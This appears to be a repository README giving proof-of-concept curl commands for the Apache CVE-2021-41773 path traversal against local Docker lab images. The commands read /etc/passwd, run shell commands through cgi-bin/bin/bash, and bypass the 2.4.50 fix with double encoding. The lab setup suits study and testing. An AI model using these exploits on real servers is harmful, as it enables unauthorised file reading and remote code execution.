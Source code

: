 # CVE-2021-41773 (Apache Path Traversal)

# CVE-2021-41773

## Apache Path Traversal

- Without CGI enabled (docker image h3x/cve202141773:nocgi)
`curl -v '<http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd'`>
- With CGI enabled (docker image h3x/cve202141773:cgi)
`curl -v '<http://localhost:8081/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash>' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"`
- Bug in the fix : still vulnerable in 2.4.50
`curl '<http://localhost:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd'`>
